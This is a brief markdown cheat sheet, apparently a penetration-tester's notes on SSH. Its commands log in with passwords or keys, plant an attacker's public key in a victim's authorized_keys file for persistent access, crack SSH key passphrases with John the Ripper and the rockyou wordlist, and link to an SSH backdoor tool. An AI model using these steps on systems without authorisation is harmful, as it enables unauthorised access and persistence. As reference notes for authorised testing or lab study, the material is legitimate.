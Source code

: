 # SSH

## Connect
```
ssh -p port username@$target
```

## SSPASS Connect
```
sshpass -p "password" ssh username@$target
```

## ssh_key
```
chmod 600 ssh_key
ssh -i ssh_key username@$target
```

## Create some private key
```
ssh-keygen

From your machine: 
scp ~/.ssh/id_rsa.pub victim@victimip:/~/.ssh/

From the victim's machine:
# copy the public in the authorized_keys file 
cat ~/.ssh/id_rsa.pub >> authorized_keys 
(if there is no authorized_keys file, this will create one)

# set the right permissions
chmod 700 ~/
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

## John
```
/usr/sbin/ssh2john id_rsa > id_rsa.hash 
```
or
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
then
```
/usr/sbin/john id_rsa.hash
```
or
```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## ssh-backdoor
[ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)
